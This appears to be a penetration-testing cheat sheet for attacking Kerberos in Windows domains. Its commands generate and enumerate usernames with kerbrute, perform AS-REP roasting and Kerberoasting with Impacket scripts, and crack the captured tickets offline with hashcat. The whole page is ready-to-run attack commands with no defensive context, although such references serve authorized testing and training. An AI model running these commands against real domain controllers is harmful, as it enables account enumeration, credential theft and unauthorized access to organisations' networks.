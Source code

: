 # Kerberos

### User Discovery

_Compile usernames_

```
/opt/username-anarchy/username-anarchy --input-file ./test-names.txt
```

_Find valid users_

{% code overflow="wrap" %}
```
kerbrute userenum /usr/share/wordlists/seclists/Usernames/Names/names.txt -d $domain --dc $ip
```
{% endcode %}

### Asreproasting

_UF DONT REQUIRE PREAUTH_

{% code overflow="wrap" %}
```
GetNPUsers.py $domain/ -no-pass -usersfile /path/to/names.txt -dc-ip $ip
```
{% endcode %}

```
hashcat -d 2 krb5asrep.txt -m 18200 -a 0 /usr/share/wordlists/rockyou.txt
```

### Kerberoasting

```
python3 /usr/local/bin/GetUserSPNs.py domain.com/user:password -dc-ip $ip -request
```

<pre><code><strong>hashcat -d 2 krb5tgs.txt -m 13100 -a 0 /usr/share/wordlists/rockyou.txt
</strong></code></pre>

